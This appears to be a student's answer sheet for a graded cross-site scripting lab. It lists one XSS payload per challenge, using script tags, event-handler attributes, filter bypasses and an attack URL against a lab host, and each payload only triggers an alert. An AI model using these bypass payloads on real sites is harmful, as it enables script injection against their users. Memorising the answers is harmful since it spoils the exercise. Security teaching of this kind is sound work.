 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
<script>alert("xss")</script>
```

# 2. No Script Allowed (3 points)

```
TODO: \<a onmouseover="alert(success())"\>PWN\</a\>
```

# 3. One More Time, Like You Mean It (3 points)

```
TODO: \<a onmouseover="alert(success())"\>xxs link\</a\>
```

# 4. An Open-and-Shut Case (3 points)

```
TODO: <img src=xss onerror=alert(success())>
```

# 5. Time to Mix Things Up (3 points)

```
TODO: <img src=xss onerror=alert(success())>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
TODO: <img src=xss onerror=alert(success())>
```

# 7. Between a Rock And a Hard Place (3 points)

```
TODO: \<a onmouseover="alert(success())"\>PWN\</a\>
```

# 8. Angle of Death (6 points)

Attack input:

```
TODO: ##"><<script>alert(success());</script>
```


# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
TODO: " onload = alert(success())
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
TODO: "" onload = alert(success())
```


# 12. When All is Said and Done (6 points)

Attack input:

```
TODO: ' onload = alert(success())
```


# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL: http://caloogle.xyz:4140/search?q=&lang=PWNED%20onload%0C=%0Calert(success())


# 15. The Early Bird Catches the Worm (3 points)

```
TODO: <script></script><script>alert(success())</script>
```

# 16. Tying Up Loose Ends (3 points)

```
TODO: <<//script><script>alert(success())<<//script>
```

# 18. Congrats

N/A

